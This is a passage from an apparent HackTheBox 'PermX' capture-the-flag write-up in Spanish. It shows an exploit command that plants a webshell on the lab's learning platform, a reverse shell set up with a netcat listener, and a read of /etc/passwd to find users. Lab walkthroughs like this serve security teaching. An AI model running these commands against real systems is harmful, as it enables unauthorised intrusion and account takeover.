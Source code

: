 Después de ejecutar exitosamente el comando, recibí una URL bajo la cual debería tener la ejecución remota del comando.

```
python3 main.py -u http://lms.permx.htb/ -a webshell
```

Como se muestra en la captura de pantalla a continuación, funciona.

![Captura de pantalla de la web](assets/images/PermX/imagen6.webp)


Para obtener una shell inversa, usé la herramienta "Python3 shortest" de revshells.com . No olvides ajustar la IP del atacante y el puerto de escucha.

![Captura de pantalla de la web](assets/images/PermX/imagen7.webp)


Antes de ejecutarlo, inicié un oyente netcat.

![Captura de pantalla de la web](assets/images/PermX/imagen8.webp)


# [](#header-1)Shell como mtz
## [](#header-2)Enumeración

Solo hay un usuario con un directorio de inicio y un shell:

```
www-data@permx:/home$ ls
mtz
www-data@permx:/home$ grep 'sh$' /etc/passwd
root:x:0:0:root:/root:/bin/bash
mtz:x:1000:1000:mtz:/home/mtz:/bin/bash
```
